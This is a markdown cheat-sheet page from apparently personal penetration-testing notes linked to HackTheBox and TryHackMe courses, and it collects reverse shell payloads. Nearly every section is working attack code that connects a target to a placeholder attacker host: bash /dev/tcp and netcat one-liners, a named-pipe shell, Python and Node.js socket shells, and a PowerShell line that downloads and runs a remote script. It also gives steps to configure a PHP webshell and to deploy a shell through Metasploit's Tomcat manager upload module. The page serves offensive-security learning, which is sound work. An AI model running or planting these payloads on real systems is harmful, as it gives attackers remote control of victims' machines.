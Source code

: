 # Reverse shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

When a victim <small>(client)</small> connects to a server <small>(hacker)</small>, we gain access to what we call a 'reverse shell,' allowing us to run commands on the victim and maybe compromise it.

The 'reverse' comes from the fact that the target is the one connecting to use, while with ssh or other remote tools, the client is 'normally' the one initiating the connection. 💥

The hacker will run a listener on their machine and wait for the compromised target to connect back to it, e.g. wait for the target to execute the reverse shell payload 🪲.
</div><div>

You will have to configure the selected reverse shell that you will use to connect back to the listener. For the commands below, we consider the host with the listener IP to be `x.y.z.t`; port `4444` .

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) <small>(3.3k ⭐, 2020 🪦)</small>.

**For the listener**, you can use tools listed in [Remote Shell](../index.md#remote-shell-) or a simple instable netcat listener listening on the selected port:

```shell!
$ nc -lvnp 4444 # await the reverse shell payload execution
```
</div></div>

<hr class="sep-both">

## Revshells website

<div class="row row-cols-lg-2"><div>

[revshells](https://www.revshells.com/) is a popular website to create reverse shell payloads, along with generating listener commands.

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-lg-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash!
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-lg-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-lg-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) <small>(1.1k ⭐)</small>.

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```

```ps
$ curl http://$IP:$PORT/revshell.php -o /dev/shm/revshell.php
$ php /dev/shm/revshell.php
$ export RHOST="x.y.z.t";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(2.2k ⭐, powershell netcat client/server)</small>
</div></div>

<hr class="sep-both">

## Tomcat Reverse Shell

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to both generate a shell and upload it. It doesn't work with at least tomcat 7.8.

```shell!
$ msfconsole -q
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set RHOSTS <target>
msf6> set RPORT 8080
msf6> set HttpUsername username
msf6> set HttpPassword password
msf6> set LHOST tun0
msf6> set VERBOSE true # error 500 == it won't work
msf6> run
```
</div><div>

You can use [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md#-some-payloads-) to generate a reverse shell.

You can also create one manually. For the contents of `index.jsp`, you can use metasploit one or [this one which is similar](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/jsp-reverse.jsp).

```ps
$ nano index.jsp # fill this file
$ jar -cvf ../revshell.war index.jsp  # it works in v7
$ zip -r revshell.war index.jsp       # it works in v7
```
</div></div>

<hr class="sep-both">

## Node.js Reverse Shell

[![pythonplayground](../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

<div class="row row-cols-lg-2"><div>

Given the following shell from [revshells](https://www.revshells.com/):

```js!
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4444, "x.y.z.t", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
</div><div>

You can execute it using `node.js reverseshell.js`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Python/Mkfifo shells are often more likely to work
* Try double reverse shell?
* [r57shell](https://r57shell.net/)
* [EzpzShell](https://github.com/H0j3n/EzpzShell)
* [hoaxshell](https://github.com/t3l3machus/hoaxshell)
</div><div>
</div></div>